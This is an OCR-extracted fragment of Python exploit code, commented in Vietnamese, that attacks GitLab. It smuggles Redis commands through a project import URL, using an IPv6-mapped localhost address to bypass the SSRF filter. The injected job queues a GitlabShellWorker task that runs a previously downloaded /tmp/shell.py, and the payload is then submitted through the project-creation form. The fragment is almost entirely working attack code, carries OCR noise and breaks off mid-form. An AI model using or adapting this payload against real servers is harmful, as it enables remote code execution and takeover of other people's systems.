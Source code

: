 exec

exec

exec

\"\"\"

else:

\# Payload để thực thi shell.py đã tải về

print(\"\[+\] Tạo payload để thực thi shell.py\...\")

redis_command = f\"\"\"

multi

sadd resque:gitlab:queues system_hook_push

lpush resque:gitlab:queue:system_hook_push
\"{{\\\"class\\\":\\\"GitlabShellWorker\\\",\\\"args\\\":\[\\\"class_eval\\\",\\\"open(\\\'\|python3
/tmp/shell.py
\\\').read\\\"\],\\\"retry\\\":3,\\\"queue\\\":\\\"system_hook_push\\\",\\\"jid\\\":\\\"ad52abc5641173e217eb2e52\\\",\\\"created_at\\\":1513714403.8122594,\\\"enqueued_at\\\":1513714403.8129568}}\"

exec

exec

exec

\"\"\"

\# Sử dụng IPv6 localhost để bypass filter

\# Địa chỉ ::1 hoặc 0:0:0:0:0:ffff:127.0.0.1 đều là localhost trong IPv6

ipv6_url = \"git://\[0:0:0:0:0:ffff:127.0.0.1\]:6379/test/ssrf.git\"

\# Kết hợp URL và Redis command

import_url = f\"{ipv6_url}{redis_command}\"

\# Chuẩn bị dữ liệu form

project_data = {

\"utf8\": \"✓\",

\"authenticity_token\": project_token,

\"project\[ci_cd_only\]\": \"false\",

\"project\[import_url\]\": import_url,

\"project\[name\]\": project_name,

\"project\[namespace_id\]\": namespace_id,

\"project\[path\]\": project_name,

\"project\[description\]\": \"\",
